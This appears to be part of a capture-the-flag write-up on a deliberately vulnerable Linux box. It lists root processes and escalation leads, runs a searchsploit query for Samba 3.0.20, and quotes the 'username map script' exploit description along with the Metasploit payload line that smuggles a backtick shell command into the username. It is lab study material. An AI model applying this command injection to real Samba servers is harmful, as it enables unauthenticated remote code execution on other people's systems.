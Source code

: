 
And we get a callback!

# privesc

Interesting processes:

```
root      5601     1  0 19:38 ?        Sl     0:00 /usr/bin/rmiregistry
root      5606     1  0 19:38 ?        Sl     0:01 ruby /usr/sbin/druby_timeserver.rb
root      5611     1  0 19:38 ?        S      0:00 /usr/bin/unrealircd
root      5624     1  0 19:38 ?        S      0:01 Xtightvnc :0 -desktop X -auth /root/.Xauthority
```

- tomcat55
- /var/www
- nfs exports root file system no_root_sqash



---

Realized I didn't check searchsploit for Samba:

```
❯ searchsploit Samba 3.0.20
-------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                            |  Path
-------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                    | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Meta | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                     | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                     | linux/remote/7701.txt
```

Checking out the description for [exploit 16320](https://www.exploit-db.com/exploits/16320), it says:

```
This module exploits a command execution vulerability in Samba
versions 3.0.20 through 3.0.25rc3 when using the non-default
"username map script" configuration option. By specifying a username
containing shell meta characters, attackers can execute arbitrary
commands.

No authentication is needed to exploit this vulnerability since
this option is used to map usernames prior to authentication!
```

So we should be able to send in arbitrary shell commands through the username? Looking at the code confirms this:

```ruby
username = "/=`nohup " + payload.encoded + "`"
```

